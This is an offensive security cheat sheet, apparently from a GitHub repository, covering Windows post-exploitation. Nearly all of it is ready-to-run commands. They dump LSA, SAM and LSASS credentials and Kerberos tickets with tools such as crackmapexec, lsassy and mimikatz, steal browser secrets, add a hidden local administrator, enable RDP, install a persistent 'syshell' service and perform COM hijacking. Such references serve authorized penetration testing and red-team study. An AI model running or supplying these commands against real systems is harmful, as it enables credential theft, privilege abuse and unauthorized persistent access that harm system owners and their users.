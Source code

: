 # Post-Ex Windows

## **Dump secrets**

### LSA

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
```

### SAM
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam

reg save hklm\sam .\sam reg save hklm\system .\system reg save hklm\security .\security 
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

```
### LSASS 
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> -M lsassy

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>

pypykatz lsa minidump lsass.dmp

procdump.exe --accepteula -ma lsass c:\WINDOWS\Temp\lsass.txt

.\mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Kerberos 

```bash
.\mimikatz.exe "log" "privilege::debug" "kerberos::list /export" exit

```

### Browser secrets

```bash
sharpchrome.exe
```

## create/add new local admin account 

```bash
net user add <user> <pass>
net localgroup "Administrators" <user> /add
```

## Enable RDP

```bash
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

add user to RDP group

```bash
net localgroup "Remote Desktop Users" <user> /add
```

## Create service 

```bash
New-Service -BinaryPathName C:\Users\sqlServer\Documents\system2.exe -Name syshell -DisplayName syshell -StartupType Automatic 
Start-Service syshell
```

## COM hijack

```bash
schtasks /query /xml > tasks.xml
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg export "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32" export.reg

# Change to HKCU and change dll
reg import export.reg /reg:64
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"

```
